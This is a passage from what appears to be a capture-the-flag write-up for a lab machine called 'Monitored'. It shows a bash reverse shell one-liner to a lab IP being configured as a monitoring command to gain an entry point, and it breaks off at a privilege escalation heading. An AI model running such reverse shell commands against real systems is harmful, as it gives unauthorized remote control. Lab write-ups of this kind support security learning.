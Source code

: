 The `Command` contains:
```shell
bash -c 'bash -i >& /dev/tcp/10.10.14.115/1996 0>&1'
```
![monitored15](/images/blog/writeup/monitored/monitored15.png)

The `Service` one:  
![monitored16](/images/blog/writeup/monitored/monitored16.png)
The button ton run the `Service`.  
![monitored17](/images/blog/writeup/monitored/monitored17.png)
Let's go we have our entry point!  

## 🪜 Privesc
